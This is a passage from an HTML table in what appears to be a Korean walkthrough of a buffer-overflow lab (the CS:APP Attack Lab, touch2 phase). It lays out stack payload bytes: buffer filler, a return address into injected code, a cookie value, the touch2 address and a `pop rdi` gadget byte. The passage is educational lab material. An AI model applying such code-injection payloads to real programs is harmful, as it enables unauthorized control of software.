   			</td>
            <td>
                buffer for `buf`
  			</td>
        </tr>
        <tr>
            <td style="text-align: right">
                <-8>
  			</td>
            <td style="text-align: center">
                00 00 00 00 00 00 00 00
  			</td>
            <td>
                buffer for `buf`
  			</td>
        </tr>
        <tr>
            <td style="text-align: right">
                rsp => <+ 0>
  			</td>
            <td style="text-align: center">
                68 d6 60 55 00 00 00 00
  			</td>
            <td>
                스택에 인젝션한 코드의 주소 `rsp + 24`   
  			</td>
        </tr>
         <tr>
            <td style="text-align: right">
                <+ 8>
  			</td>
            <td style="text-align: center">
                73 01 96 78 00 00 00 00
  			</td>
            <td>
                Cookie `0x78960173`
  			</td>
        </tr>
        <tr>
            <td style="text-align: right"> 
                <+16>
                </td>
            <td style="text-align: center">
                a5 18 40 00 00 00 00 00    
                </td>
            <td>
                `touch2`의 주소 `0x4018a5` 
                </td>
        </tr>
        <tr>
            <td style="text-align: right">
                <+24>
                </td>
            <td style="text-align: center">
                5f
                </td>
            <td>
                `pop rdi` <br /><br />`getbuf`에서 `ret`를 통해 이 주소로 뛰게 되고,  `rsp`는 Cookie 값이 있는 주소를 가리키게 된다. 이때 `pop rdi`를 하면 `rdi`에 우리가 원하는 Cookie 값이 적재되게 된다.
                </td>
        </tr>
        <tr>
            <td style="text-align: right">
                <+32>